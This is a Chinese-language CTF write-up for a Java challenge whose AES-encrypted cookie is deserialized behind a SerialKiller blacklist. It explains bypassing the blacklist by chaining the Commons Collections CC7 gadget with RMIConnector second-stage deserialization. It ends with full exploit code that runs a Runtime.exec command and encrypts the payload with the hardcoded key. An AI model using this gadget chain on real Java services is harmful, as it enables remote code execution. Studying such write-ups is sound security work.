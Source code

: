 # 解题思路

通过 jd-gui 等工具反编译 war 包可知，在 `/check` 路由下存在对 Cookie 的反序列化操作，类似于 Shiro，给 Cookie 加了一层 AES 加密，但是密钥等信息是硬编码的。

同时在 `lib` 目录下可以看见存在 CC3.2.1 的依赖，但是是使用 `SerialKiller` 进行的反序列化，通过黑名单基本上将 CC 链都过滤的差不多了，只剩下一个 CC7 的 `Hashtable` 没有过滤，但是这里也只能存在 CC7 的后半段。

对于黑名单过滤的反序列化，一般只有两条思路，要么找到一条全新的链，要么通过二次反序列化去打，这里的二次反序列化是指那些会对 payload 进行如 Base64 编码处理的二次反序列化，但是这里常用的 `SignedObject` 等都被 ban 了，只剩下一个 `RMIConnector` 能够使用，那么接下来的问题就是如何将 CC7 和 RMIComnnector 拼接在一起。

如果之前了解过 RMIConnector 的二次反序列化应该知道，核心点在于调用其 `connect` 方法，这个方法会对其构造参数中的 `JMXServiceURL` 对象的 url 后段进行 Base64 解码后反序列化处理，那么我们如何调用这个方法呢，其实可以看到 `SerialKiller` 并没有 ban 掉 `InvokerTransformer`，所有我们只要能够将 HashTable 链接上 InvokerTransformer 就可以调用其 `connect` 方法了。

但是这里如何连接上是一个难点，如果熟悉 CC7 的话一个清楚其关键在于两个 LazyMap 的 hashcode 必须相等，同时由于这里是调用的 `InvokerTransformer` 的 transform 方法，要求参数必须为 RMIConnector 对象才能成功利用，那么这里我们通过查看源码可知 `LazyMap#hashCode` 的计算方法是分别计算键值的 hashCode 后进行异或得到的，那么这里利用异或的性质，我们将键值设置为相同的值即可通过 hashCode 的判断，同时对于参数的控制我们将 RMIConnector 对象放在第一个 LazyMap 中即可。(需要对CC7这个链子熟悉并且会调试)


`exp.java`:
```java
package com.ctf.ezjava;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.*;

public class exp {
    public static void setFieldValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }

    public static String getPayload(byte[] p) throws Exception {
        String encode = Base64.getEncoder().encodeToString(p);
        InvokerTransformer invokerTransformer = new InvokerTransformer(null, null, null);

        String url = "service:jmx:rmi:///stub/" + encode;
        JMXServiceURL jmxServiceURL = new JMXServiceURL(url);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, new HashMap<>());

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazymap1 = LazyMap.decorate(innerMap1, invokerTransformer);
        lazymap1.put(rmiConnector, rmiConnector);
        Map lazymap2 = LazyMap.decorate(innerMap2, invokerTransformer);
        lazymap2.put(0, 0);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazymap1, 1);
        hashtable.put(lazymap2, 1);

        setFieldValue(invokerTransformer, "iMethodName", "connect");
        setFieldValue(invokerTransformer, "iParamTypes", null);
        setFieldValue(invokerTransformer, "iArgs", null);

        lazymap1.remove(0);

        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();
        return Base64.getEncoder().encodeToString(bao.toByteArray());
    }

    public static void main(String[] args) throws Exception {
        Transformer[] faketransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(faketransformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tem = new TiedMapEntry(lazyMap, "foo");
        Map expMap = new HashMap();
        expMap.put(tem, "bar");

        lazyMap.remove("foo");

        setFieldValue(transformerChain, "iTransformers", transformers);

        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(expMap);
        oos.flush();
        oos.close();

        String payload = getPayload(bao.toByteArray());
        byte[] key = Base64.getDecoder().decode("bGluZ2xpbmdsaW5nbGluZw==");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(key, "AES");
        try {
            cipher.init(Cipher.ENCRYPT_MODE, secretKeySpec);
        } catch (Exception e) {
            e.printStackTrace();
        }
        byte[] encrypted = cipher.doFinal(payload.getBytes());
        String cookie = Base64.getEncoder().encodeToString(encrypted);
        System.out.println(cookie);
        System.out.println(cookie.length());
    }
}
```
